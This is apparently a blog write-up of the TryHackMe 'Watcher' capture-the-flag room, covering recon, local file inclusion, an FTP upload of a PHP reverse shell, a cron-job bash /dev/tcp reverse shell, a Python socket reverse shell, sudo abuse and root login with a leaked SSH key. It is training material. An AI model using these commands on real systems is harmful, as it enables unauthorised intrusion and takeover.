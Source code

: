 ```yaml
---
layout: post
title: Watcher Write-Up
comments: true
---
```

[The Watcher](https://tryhackme.com/room/watcher)  is a medium-difficulty box on the service TryHackMe, and this will be my first of many write-ups to come. I learned a lot from completing this box, and highly recommend any beginner-to-intermediate hackers complete it. Feel free to email me about any questions or recommendations you may have.

When approching a machine, our first step is to use `nmap` to see what is running on the server:
`nmap -sV 10.10.130.17`
When this command is run, the first thing we'll notice is the http server, and secondly you'll see the ftp server.

Let's take a look at the http server: we'll want to take a look at the website. This website looks like a blog. First, we look at the URL and see that this blog uses php to access posts - we'll come back to this later.
Next, we use `gobuster` to fuzz the directories of the machine (alternatively, dirbuster or ffuf can be used if preferred):
`gobuster dir -u 10.10.130.17 -w /usr/share/wordlists/dirb/common.txt`

After this command is run, we'll see there's a file named 'robots.txt'. When looking at `10.10.130.17/robots.txt`, we find 'flag_1' and 'secret_file_do_not_read.txt'.
Congrats, we have our first flag!

Now, lets try and open 'secret_file_do_not_read.txt'. We don't have permission to open this file, but maybe we can bypass this.
Let's open a blog post again. In the url of the posts we have:
"http://10.10.130.17/post.php?post=&lt;postname>.php".

The first thing I do when I see a php query is try to view `/etc/passwd` as a test.

"http://10.10.130.17/post.php?post=/etc/passwd"

From this, we can see the file - two users are visible: Mat and Toby.
Now that we know we can view files with this, lets open the secret file.

"http://10.10.130.17/post.php?post=secret_file_do_not_read.txt"

In this file, there is a note to Mat about ftp credentials.
When we sign into the ftp server, we'll see two things: a directory called `files`, and a file named 'flag_2.txt'

We can copy the flag to our local machine with the `get` command, and then view the flag on our local machine.

Now that we have the ability to ftp into the machine, we can spawn a reverse shell with a php script. I use this one specifically: 
[php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

To make this script work, we need to change the IP and port.

In this screenshot, I changed the IP to my ip address, and port to 4444.

Next: we upload the script, sign into the ftp server once again, and `cd` into the files directory. Upload the php file we just modified using 
`put <path to file on local machine>`

Once it's uploaded, we need to find where the file was saved. On the note to Mat, Will says the files are saved in `/home/ftpuser/ftp/files`. Let's go to the file we uploaded using the php URL we used to see this note.

We'll see an error in the code, which in our case is good; this shows our code is uploaded.

Next, we need to listen for the shell to spawn using `nc -lvnp 4444`

Now we see that we have a shell!
To stabilize this shell we can run:
```
/usr/bin/script -qc /bin/bash /dev/null`
control + z to put the shell in the background
stty raw -echo
fg
export TERM=xterm
```

Lets try to find our third flag:
`find / -name flag_3.txt 2>/dev/null`	

If we run 'whoami', we can see that we are www-data.

Next, lets see what commands we can run with sudo using `sudo -l`
After running this command, we can run any other command with the user Toby.
We can use this to see 'flag_4.txt' in Toby's home directory with `sudo -u toby cat /home/toby/flag_4.txt`

In the same directory, there's a file named 'note.txt'; view it with the same command as before, but with 'note.txt' as the file argument instead.
Within the file, it talks about cron jobs.

To view cron tabs, you can run `cat /etc/crontab`.

We can edit the job in /home/toby/jobs/cow.sh and add this line:
`bash -i >& /dev/tcp/10.8.98.192/4444 0>&1`
to create a reverse shell to intercept with `nc`

Once we have the shell, we can cat out 'flag_5.txt' and stabilize the shell as we did earlier.

Next, we'll run in the scripts directory with another nc session listening 
`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.108.69',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

Here, we can get the next flag in Will's home directory.

After some looking around with the user Will, we'll find a .b64 file in `/opt/backups/key.b64`. With this file, we can use `base64 -d key.b64 > id_rsa` and download it with `python3 -m http.server`

Finally, we can ssh `ssh -i id_rsa root@10.10.193.197`
and cat out flag_7.txt.

Congratulations, flag 7 completed!
